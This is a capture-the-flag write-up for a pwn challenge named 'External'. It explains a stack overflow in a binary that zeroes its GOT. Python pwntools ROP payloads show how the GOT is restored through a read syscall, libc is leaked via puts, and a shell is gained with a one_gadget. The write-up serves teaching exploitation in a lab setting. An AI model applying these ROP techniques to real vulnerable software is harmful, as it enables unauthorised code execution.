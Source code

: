 ## External 
#### Description
No description.

#### Author
M_alpha

#### Points and solves
467 points and 69 solves.

We are given a binary, that reads out input, clears the GOT table and somehow we need to get a shell.

```c
undefined8 main(void)
{
  undefined buff [80];
  puts("ROP me ;)");
  printf("> ");
  read(0,buff,0xf0);
  clear_got();
  return 0;
}
```

The function ```clear_got``` does exactly what we expect it to do, it uses ```memeset``` to set the entire GOT to 0.

In addition, we have a very usefull gadget in one of the setup functions:
```asm
00401283 0f 05      SYSCALL
00401285 c3         RET
```

### The vulnerability
It is obvious we can overflow ```buff``` and like in the challenge ```echo```,
we keep out eyes peeled for a way to abuse the syscall gadaget.

However, is it not a trivial rop chain, because we can't immediatly return to ```plt``` functions.
So, after a quick research about dynamic linking, I figured out the following, 
the GOT entry for any function, say ```printf```, by default is pointing to ```plt.printf + 0x6```
At that address lays the dynamic linking routine for ```printf```.
If we can set all the zeroed GOT entries to some resolving function in the ```plt``` section, we can reload the GOT entries.


### 1. Setting up conditions for restoring the GOT:
```python
payload = p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(got_start) + p64(0) + p64(syscall_ret) +\
p64(elf.sym.main)
payload = 0x58*b"A"+payload
p.sendline(payload)
```
We have a rop chain that loads ```rdi = 0, rsi = &GOT``` and returns to a syscall, and to main afterwards.
Since main returns 0, by the time we are executing the rop chain ```rax``` is 0, which is the syscall number for ```read```.
At the time we syscall, we will actually read back into the GOT table.

### 2. Rewriting GOT table:
The GOT entries in the binary are in the following order: [puts, setbuf, printf, memset, alarm, read, signal]
```python
payload = p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["setbuf"]+6) + p64(elf.sym.plt["puts"]+6) +\
	p64(elf.sym.plt["puts"]+6) + p64(elf.sym.plt["alarm"]+6) + p64(elf.sym.plt["read"]+6) +\
	p64(elf.sym.plt["signal"]+6)
p.sendline(payload)
```
So, we load the appropriate ```plt``` values into the GOT, but we can't just load them the same way, 
because memset will zero them again, so we just patch the GOT entry for memset with ```plt.puts```.
Now, by the time we return to ```main``` the function will resolve their addresses based on the ```plt``` values that are in the GOT tablle.


### 3. Leak libc:
We now have a "stable" binary that won't erase the GOT on us, and we can just leak libc with a simple rop chain:
```python
payload = p64(pop_rdi) + p64(elf.sym.got["puts"]) + p64(elf.sym.plt["puts"]) + p64(elf.sym.main)
```

### 4. Get shell:
We have a one_gadget at ```0x448a3``` offset, we can just return to that with another rop chain.
```python
p.sendline(0x58*b"C" + p64(libc.address + one_shot_offset) + b"\x00"*0x100) 
```




